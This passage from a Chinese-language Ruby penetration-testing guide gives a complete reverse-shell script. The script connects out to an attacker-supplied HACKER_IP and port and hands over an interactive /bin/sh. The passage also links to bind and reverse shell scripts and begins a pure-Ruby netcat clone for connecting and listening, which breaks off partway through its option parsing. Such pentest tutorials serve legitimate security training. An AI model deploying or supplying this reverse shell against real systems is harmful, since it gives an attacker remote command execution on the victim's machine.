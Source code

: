 如果你想要更灵活的脚本文件

```
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
require 'socket'
if ARGV[0].nil? || ARGV[1].nil?
    puts "ruby #{__FILE__}.rb [HACKER_IP HACKER_PORT]\n\n"
    exit
end
ip, port = ARGV
s = TCPSocket.open(ip,port).to_i
exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",s,s,s) 
```

## 绑定和反向 shell

这是一个出色的独立实现，由 GitHub 上的[Hood3dRob1n](https://github.com/Hood3dRob1n/Ruby-Bind-and-Reverse-Shells)编写的一个[bind](https://github.com/Hood3dRob1n/Ruby-Bind-and-Reverse-Shells/blob/master/bind.rb)和[reverse](https://github.com/Hood3dRob1n/Ruby-Bind-and-Reverse-Shells/blob/master/rubyrev.rb) shells 脚本。绑定 shell 需要身份验证，而反向 shell 则不需要。

# Ncat.rb

# 纯 Ruby Netcat

## 简单的 Ncat.rb

我找到了[这个](http://4thmouse.com/index.php/2008/02/20/netcat-clone-in-three-languages-part-i-ruby/)简单的 ncat，所以我对它进行了一些增强，并在其中添加了一些注释。

```
#!/usr/bin/ruby
require 'optparse'
require 'ostruct'
require 'socket'

class String
  def red; colorize(self, "\e[1m\e[31m"); end
  def green; colorize(self, "\e[1m\e[32m"); end
  def cyan; colorize(self, "\e[1;36m"); end
  def bold; colorize(self, "\e[1m"); end
  def colorize(text, color_code)  "#{color_code}#{text}\e[0m" end
end

class NetCat

  #
  # Parsing options
  #
  def parse_opts(args)
    @options = OpenStruct.new
    opts = OptionParser.new do |opts|
        opts.banner = "Usage: #{__FILE__}.rb [options]"
        opts.on('-c', '--connect',
            "Connect to a remote host") do
            @options.connection_type = :connect
        end
        opts.on('-l', '--listen',
            "Listen for a remote host to connect to this host") do
            @options.connection_type = :listen
        end
```